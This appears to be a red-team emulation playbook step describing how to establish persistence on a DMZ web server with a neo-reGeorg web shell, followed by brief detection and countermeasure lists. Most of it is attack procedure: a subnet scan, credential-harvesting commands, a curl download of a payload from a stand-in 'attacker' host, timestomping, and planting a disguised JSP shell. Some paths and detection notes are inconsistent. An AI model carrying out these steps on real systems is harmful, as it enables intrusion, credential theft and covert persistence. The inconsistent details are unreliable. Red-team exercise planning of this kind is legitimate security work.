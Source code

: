 # Step 2: Establish Persistence – neo-reGeorg 

**Tactic**:  
- Persistence [TA0003]  

**Technique**:
- External Remote Services [T1133]  
- Web shell [T1505]
**Objective**: Establish long-term access to the compromised Web Server by configuring the system with neo-reGeorg proxy.

---

## Context
- **Target System**: `dmz-web-elcoop-01` (Web Server, DMZ)
- **Persistence Mechanism**: neo-reGeorg web shell
- **Execution Method**: Remote via compromised creds on webserver

---

## Execution

### 1. Enumerate systems and services in DMZ
Identify the subnet
```bash
ip a
```
Find live hosts and test each IP for HTTP/HTTPS (replace with subnet parameters)
```bash
for ip in $(seq 1 254); do \
  ping -c1 -W1 [Network Prefix].$ip &> /dev/null && \
  curl -sI http://[Network Prefix].$ip | grep -i "server" && \
  echo "Web server found at [Network Prefix].$ip"; \
done
  ```

### 2. Reuse compromised creds on webserver
Typical Credential Sources:
| Location      | Command                                                              | Purpose                                        |
| ------------- | -------------------------------------------------------------------- | ---------------------------------------------- |
| Web configs   | `grep -r 'password' /etc /var/www /opt`                              | Find plain-text passwords                      |
| Bash history  | `cat ~/.bash_history`                                                | Look for `ssh`, `scp`, or `sudo` commands      |
| SSH keys      | `ls ~/.ssh/`                                                         | Look for `id_rsa`, `id_dsa`, `authorized_keys` |
| Env variables | `printenv`                                                  | Sometimes creds are stored in ENV              |
| Backup dirs   | `find / -name '*bak' -o -name '*.old' -o -name '*.tar*' 2>/dev/null` | Search for archived secrets                    |

  
### 3. Deploy neo-reGeorg on webserver to establish persistence in the DMZ 
```bash
curl http://attacker/payload.jsp -o /tmp/update.jsp
chmod 644 /tmp/update.jsp
touch -r /etc/passwd /tmp/update.jsp
mv /tmp/update.jsp /var/www/html/include/keepalive.jsp
```


### 4. Test Persistence
```bash
curl -A "Mozilla/5.0" http://[serverIP]/assets/keepalive.jsp
```

---

## Result
Red Team has established persistence on `dmz-web-elcoop-01` using a SOCKS proxy. This ensures continued access post-reboot or user login.

---

## Device Paths
- **Target Host**: `dmz-web-elcoop-01`
- **Payload Location**: `[Fill in later]`

---

## Detection Opportunities
| Vector| Description|
|-|-
| Network Traffic       | Anonmlyous ssh trafic from vpn server                   |
| File Location         | Unexpected file in server path                         |

---

## Defensive Countermeasures
- Web Root File Integrity Monitoring
- Web Server Access Log Analysis
- SSH and Sudo Log Monitoring for Credential Reuse
- Egress Traffic Monitoring from DMZ Hosts
- Restrict Write Permissions to Web Root
- Detect Proxy or Tunneling Behavior
- File Timestamp Anomaly Detection
- Deploy a Web Application Firewall (WAF)